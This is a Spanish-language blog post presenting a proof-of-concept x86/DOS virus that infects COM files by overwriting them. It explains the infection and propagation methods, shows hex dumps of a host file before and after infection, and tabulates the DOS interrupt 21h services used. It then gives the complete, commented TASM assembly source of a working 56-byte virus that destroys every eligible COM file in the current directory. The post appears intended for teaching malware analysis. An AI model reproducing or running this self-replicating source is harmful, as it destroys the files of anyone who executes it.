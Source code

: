 ```yaml
---
categories: [malware, programacion]
layout: post
published: true
tags: [16-bit, ASM-x86, DOS, PoC, TASM, Virus]
title: "Prueba de concepto - Virus: x86/DOS, COM, Overwriting"
toc: true
---
```


Prueba de concepto de virus en la plataforma x86/DOS con estrategia de infección por 
overwriting (sobrescritura) en archivos COM. El virus infecta archivos en tiempo 
de ejecución.

## Método de infección
El virus simplemente sobrescribe otros archivos COM con el código viral. Es la estrategia
más primitiva, pero es muy agresiva y destructiva. Todas las generaciones del 
virus son idénticas.

![infection](/assets/images/poc-virus-x86dos-com-overwriting/infection.png){:width="350"}

Generalmente nada se preserva de los archivos huéspedes ya que son destruidos por la sobrescritura. 
La desinfección consiste en eliminar todos los archivos infectados.

## Método de propagación
La infección se realiza en el momento de ejecución infectando todos los archivos COM en el 
directorio actual a excepción de aquellos con atributo READ-ONLY, HIDDEN o SYSTEM.

## Flujo de ejecución
![flow](/assets/images/poc-virus-x86dos-com-overwriting/flow.png){:width="350"}

## Análisis estático
Hex dump de un archivo sano de tamaño 80 bytes:
<pre class="ovf">
<span class="offsetheader">Offset  00 01 02 03 04 05 06 07  ANSI</span>
<span class="offsetcol">0x0000</span>  <span class="hexcol">B4 09 BA 39 01 CD 21 90</span>  <span class="textcol">´.º9.Í!.</span>
<span class="offsetcol">0x0008</span>  <span class="hexcol">90 90 90 90 90 90 90 90</span>  <span class="textcol">........</span>
<span class="offsetcol">0x0010</span>  <span class="hexcol">90 90 90 90 90 90 90 90</span>  <span class="textcol">........</span>
<span class="offsetcol">0x0018</span>  <span class="hexcol">90 90 90 90 90 90 90 90</span>  <span class="textcol">........</span>
<span class="offsetcol">0x0020</span>  <span class="hexcol">90 90 90 90 90 90 90 90</span>  <span class="textcol">........</span>
<span class="offsetcol">0x0028</span>  <span class="hexcol">90 90 90 90 90 90 90 90</span>  <span class="textcol">........</span>
<span class="offsetcol">0x0030</span>  <span class="hexcol">90 90 90 90 90 B4 00 CD</span>  <span class="textcol">.....´.Í</span>
<span class="offsetcol">0x0038</span>  <span class="hexcol">21 54 68 69 73 20 69 73</span>  <span class="textcol">!This is</span>
<span class="offsetcol">0x0040</span>  <span class="hexcol">20 61 20 68 6F 73 74 20</span>  <span class="textcol"> a host </span>
<span class="offsetcol">0x0048</span>  <span class="hexcol">66 69 6C 65 21 0D 0A 24</span>  <span class="textcol">file!..$</span>
</pre>

Hex dump del archivo infectado:
<pre class="ovf">
<span class="offsetheader">Offset  00 01 02 03 04 05 06 07  ANSI</span>
<span class="offsetcol">0x0000</span>  <span class="vhexcol">B4 4E 33 C9 BA 32 01 CD</span>  <span class="vtextcol">´N3Éº2.Í</span>
<span class="offsetcol">0x0008</span>  <span class="vhexcol">21 73 08 EB 21 B4 4F CD</span>  <span class="vtextcol">!s.ë!´OÍ</span>
<span class="offsetcol">0x0010</span>  <span class="vhexcol">21 72 1B B4 3D B0 02 BA</span>  <span class="vtextcol">!r.´=°.º</span>
<span class="offsetcol">0x0018</span>  <span class="vhexcol">9E 00 CD 21 8B D8 B4 40</span>  <span class="vtextcol">ž.Í!‹Ø´@</span>
<span class="offsetcol">0x0020</span>  <span class="vhexcol">B9 38 00 BA 00 01 CD 21</span>  <span class="vtextcol">¹8.º..Í!</span>
<span class="offsetcol">0x0028</span>  <span class="vhexcol">B4 3E CD 21 EB DF B4 00</span>  <span class="vtextcol">´>Í!ëß´.</span>
<span class="offsetcol">0x0030</span>  <span class="vhexcol">CD 21 2A 2E 63 6F 6D 00</span>  <span class="vtextcol">Í!*.com.</span>
<span class="offsetcol">0x0038</span>  <span class="hexcol">21 54 68 69 73 20 69 73</span>  <span class="textcol">!This is</span>
<span class="offsetcol">0x0040</span>  <span class="hexcol">20 61 20 68 6F 73 74 20</span>  <span class="textcol"> a host </span>
<span class="offsetcol">0x0048</span>  <span class="hexcol">66 69 6C 65 21 0D 0A 24</span>  <span class="textcol">file!..$</span>
</pre>
<style>
.offsetheader { color:#000000; line-height:200% }
.offsetcol { color:#000000 }
.hexcol { color:#000000 }
.textcol { color:#000000 }
.vhexcol, .vtextcol  { color:#ff0000 }
</style>

El virus sobrescribe desde el offset 0x0000 hasta 0x0037 (56 bytes). Lo único que se 
conserva del huésped es el código luego del offset 0x0037. Si el huésped fuera menor 
a 56 bytes no quedaría nada de el.

## API utilizada
Se utilizan 6 servicios de la DOS API mediante la interrupción de software 21h.
<div class="table-responsive">
<table class="table">
  <thead class="thead-light">
    <tr>
      <th>Servicio</th>
      <th>AH</th>
      <th>Parámetros</th>
      <th>Retorno</th>
      <th>Versión DOS</th>
    </tr>
  </thead>
  <tr>
    <td>Terminar programa</td>
    <td>00h</td>
    <td class="center">-</td>
    <td class="center">-</td>
    <td>1+</td>
  </tr>
  <tr>
    <td>Abrir archivo existente</td>
    <td>3Dh</td>
    <td>AL = modos de acceso e intercambio<br>DS:DX -&gt; nombre del archivo (ASCIZ)</td>
    <td>Éxito: CF = 0, AX = handle del archivo <br>Error: CF = 1, AX = código de error </td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Cerrar archivo</td>
    <td>3Eh</td>
    <td>BX = handle del archivo</td>
    <td>Éxito: CF = 0, AX destruido <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Escribir en archivo <br>o dispositivo</td>
    <td>40h</td>
    <td>BX = handle del archivo <br>CX = nro. de bytes <br>DS:DX -&gt; datos a escribir</td>
    <td>Éxito: CF = 0, AX = nro. de bytes escritos <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Buscar el primer archivo <br>coincidente</td>
    <td>4Eh</td>
    <td>CX = máscara de atributos de archivo<br>DS:DX -&gt; nombre del archivo (ASCIZ)</td>
    <td>Éxito: CF = 0, resultado en DTA <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Buscar el siguiente archivo <br>coincidente</td>
    <td>4Fh</td>
    <td class="center">-</td>
    <td>Exito: CF = 0, resultado en DTA <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
</table>
</div>

## Código fuente
{% highlight nasm linenos %}
;###############################################################################
;# Nombre:        virus://DOS/Trivial.56
;# Plataforma:    Intel x86
;# SO:            DOS v2.0+, Win32 (mediante NTVDM)
;# Lenguaje:      ASM x86-16 (sintaxis Intel)
;# Herramientas:  TASM v4.1, TLINK v7.1.30
;# Tipo:          Overwriting, Non-Resident, COM infector
;# Tamaño:        56 bytes
;# Propagación:   Acción directa sobre el directorio actual. 
;# Infección:     Sobrescritura de archivos COM (no READ-ONLY/HIDDEN/SYSTEM).
;# Residente:     No
;# Stealth:       No
;# Payload:       No
;##############################################################################
                .8086  
                .model  tiny

                assume  cs:virus, ds:virus

       virus    segment byte public 'CODE'

                org     100h

      start:    mov     ah, 4Eh               ; | AH = 4Eh 
                xor     cx, cx                ; | CX = 0, archivos normales
                lea     dx, search_str        ; | DS:DX -> "*.COM"
                int     21h                   ; |_DOS API - Buscar primer archivo

                jnc     infect_file           ; archivo encontrado
                jmp     exit                  ; no hay archivo

  find_next:    mov     ah, 4Fh               ; | AH = 4Fh  
                int     21h                   ; |_DOS API - Buscar siguiente archivo 

                jc      exit                  ; no hay archivo

infect_file:    mov     ah, 3Dh               ; | AH = 3Dh 
                mov     al, 2                 ; | AL = 2, lectura y escritura
                mov     dx, 9Eh               ; | DS:DX -> DTA + 1Eh = 9Eh (FileName)
                int     21h                   ; |_DOS API - Abrir archivo existente

                mov     bx, ax                ; | BX = handle del archivo 
                mov     ah, 40h               ; | AH = 40h
                mov     cx, virus_size        ; | CX = tamaño del virus
                lea     dx, start             ; | DS:DX -> inicio del código viral
                int     21h                   ; |_DOS API - Escribir en archivo/dispositivo

                mov     ah, 3Eh               ; | AH = 3Eh 
                int     21h                   ; |_DOS API - Cerrar archivo

                jmp     find_next             ; buscar siguiente

       exit:    mov     ah, 00h               ; | AH = 00h
                int     21h                   ; |_DOS API - Retornar a DOS

  search_str    db      "*.com", 00h          ; nombre comodín de búsqueda
  virus_size    equ     ($ - start)           ; tamaño del virus

       virus    ends
                end     start
{% endhighlight %}

## Casos reales
* La familia de virus *Trivial* en sistemas DOS se caracteriza por tener los 
  ejemplares de virus más pequeños. Por ejemplo, *DOS/Trivial.22* es un 
  virus de solo 22 bytes.
* El gusano *VBS/LoveLetter.A@mm* tiene como principal vector de propagación el
  envió masivo de e-mails. Al ejecutarse sobre escribe archivos de extensión 
  *.vbs*, *.vbe*, *.js*, *.css*, *.jpg*, *.txt*, *.html*, *.avi*, *.mp3*, 
  y muchos más. Fue notablemente exitoso en el 2000.

## Bibliografía
{% bibliography -q
   @*[key=Szor2005
   || key=Phalcon-Skism,
   || key=Williams1992] 
%} 